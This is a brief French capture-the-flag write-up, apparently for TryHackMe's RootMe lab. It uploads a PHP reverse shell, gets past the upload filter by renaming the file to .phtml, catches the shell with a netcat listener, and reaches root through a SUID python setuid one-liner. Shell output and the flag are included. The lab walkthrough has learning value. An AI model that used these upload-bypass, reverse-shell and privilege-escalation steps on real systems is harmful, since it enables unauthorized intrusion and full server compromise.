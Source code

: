 

downlaods un reverse shell sur: https://pentestmonkey.net/tools/web-shells/php-reverse-shell
1. unziper le file et modifier dans le .php file le reverse IP.	
2. incompatibilité durant le uploads avec les  PHP file.. 
      **Donc! simplement modifier le  .php -> .phtml 
3. démarrer un listenner NetCat  ( nc -nvlp 1234 )
4. ouvrir le reverse shell http://10.10.10.10/uploads/revshell.phtml
5. regarde NetCat si la connection est effective
```bash
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.13.3.214] from (UNKNOWN) [10.10.70.208] 56574
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:57:02 up 19 min,  0 users,  load average: 0.00, 0.03, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$  python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
# ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
# 

```


find / -perm /4000 |  grep "permision"

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
